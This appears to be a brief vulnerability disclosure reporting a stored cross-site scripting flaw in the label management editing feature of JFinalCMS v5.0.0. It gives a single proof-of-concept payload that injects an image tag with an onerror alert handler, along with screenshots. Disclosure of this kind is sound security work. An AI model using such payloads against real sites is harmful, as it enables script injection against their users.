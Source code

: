 target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

Label management editing with stored XSS

![图片](https://github.com/Jarvis-616/cms/assets/106567174/e1661341-6213-4cee-bca6-c9f6cde19cfa)


`"><img src=1 onerror=alert(1)>`

![图片](https://github.com/Jarvis-616/cms/assets/106567174/0c7bde1d-eefc-4c6a-a80a-3b37625b9c9b)


successed

![图片](https://github.com/Jarvis-616/cms/assets/106567174/0c64b910-7a5a-4ccf-9503-97bab8673978)
